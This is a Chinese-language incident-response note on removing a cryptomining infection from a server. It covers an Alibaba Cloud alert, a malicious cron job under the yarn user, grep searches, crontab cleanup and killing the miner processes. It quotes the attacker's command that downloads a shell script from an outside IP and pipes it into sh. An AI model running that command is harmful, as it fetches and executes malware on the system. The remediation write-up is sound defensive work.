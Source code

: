 
# 服务器被植入恶意挖矿代码
解决流程：排查阿里云安全告警信息，定位到可以下载行为。删除定时任务和挖矿代码，杀掉所有的恶意进程，装杀毒软件定时查杀。关闭所有公网端口只保留需要通过公网连接的。
由于所有的恶意进程都是 yarn 用户执行的，把虚拟缓存和 mr 的缓冲区文件删了，然后重启 yarn。

## 排查
下面记录异常处理步骤：

阿里云安全告警处理，发现可疑下载行为，下载了 shell 脚本，添加定时任务下载恶意挖矿代码修改权限并执行。安全告警检测到挖矿程序。
```
进程链
-[898]  /usr/sbin/cron -f -P

    -[7580]  /usr/sbin/cron -f -P

        -[7581]  /bin/sh -c wget -O - http://185.196.9.190/srv/dcd.sh | sh
```

由于借助阿里直接看到了具体的可疑行为，直接使用 grep 排查
```sh
grep -r "wget -O - http://185.196.9.190/srv/dcd.sh" /etc/cron* /usr/sbin /usr/bin /var/spool/cron/crontabs /etc/init.d /etc/systemd/system

grep -r "wget" /etc/cron* /usr/sbin /usr/bin /var/spool/cron/crontabs /etc/init.d /etc/systemd/system
```

在用户 yarn 的 crontab 文件中发现了恶意任务
查看列表
```
crontab -u yarn -l
```
编辑并删除恶意 cron
```
sudo crontab -u yarn -e
```

查看当前的 yarn 用户的进程
```
root@ddp2 :~# ps -u yarn
    PID TTY          TIME CMD
  32400 ?        07:30:16 tmp
  35006 ?        00:00:39 java
  35807 ?        00:00:51 java
```
其中 tmp 相关的都是恶意挖矿代码
```
# 终止所有 'tmp' 进程
sudo killall tmp

# 确保所有 'tmp' 进程已被终止
ps -u yarn | grep tmp

# 终止所有 'java' 进程（可选）
sudo killall java

# 确保所有 'java' 进程已被终止
ps -u yarn | grep java

```
